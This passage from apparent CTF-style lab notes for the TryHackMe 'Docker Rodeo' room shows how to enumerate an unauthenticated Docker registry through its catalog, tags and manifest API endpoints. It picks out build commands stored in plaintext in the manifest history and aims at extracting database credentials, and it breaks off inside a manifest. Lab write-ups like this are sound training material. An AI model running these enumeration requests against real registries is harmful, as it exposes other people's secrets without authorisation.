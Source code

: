 ```
               "kid": "4AOX:7QLG:RGNU:WCYC:VEXV:TCGL:52WG:JIHD:GLG6:BMEO:42WF:W434",
               "kty": "EC",
               "x": "iyUmH7zu1Tt9Xf6Yr7I5F1q6KZ-n8rjs9obqWaQVLas",
               "y": "gHbi4oWYU9nYrFCnkARSBkYCy51tPBMGEIZDuk7T5V0"
            },
            "alg": "ES256"
         },
         "signature": "8G1Ur5ICgPknh2Mc2lHPz8QefRvDuaNbQ5xpJjXiQ1UNgAku2sQ7wn_aLABVTh-0njM3VaZ9sRMiR9zmJHf9OQ",
         "protected": "eyJmb3JtYXRMZW5ndGgiOjI1NzAsImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyMi0xMC0yNVQxNjoxMDoyNFoifQ"
      }
   ]
}


```

	Note the response - specifically the "history" key;  albeit slightly hard to read, we have a command that was executed during the image building stage stored in plaintext (echo \\\"here's a flag\\\" \\u003e /root/root.txt\"]` ). In this image, it's a string insert into /root/root.txt on the container. Although imagine if this was a password!

![](https://resources.cmnatic.co.uk/TryHackMe/rooms/docker-rodeo/dockerregistry/manifest1.png)

![[Pasted image 20221025111332.png]]

3.2.3. Now it's Your Turn...
Apply what we have done above, enumerate the 2nd Docker registry running on the Instance, find out what repositories are stored within it and ultimately extract some credentials for a database.


```
Getting repositories

GET http://docker-rodeo.thm:7000/v2/_catalog

{
    "repositories": [
        "securesolutions/webserver"
    ]
}

Getting tags

GET http://docker-rodeo.thm:7000/v2/securesolutions/webserver/tags/list

{
    "name": "securesolutions/webserver",
    "tags": [
        "production"
    ]
}

Getting manifest file

GET  http://docker-rodeo.thm:7000/v2/securesolutions/webserver/manifests/production

{
   "schemaVersion": 1,
   "name": "securesolutions/webserver",
   "tag": "production",
   "architecture": "amd64",
   "fsLayers": [
      {
```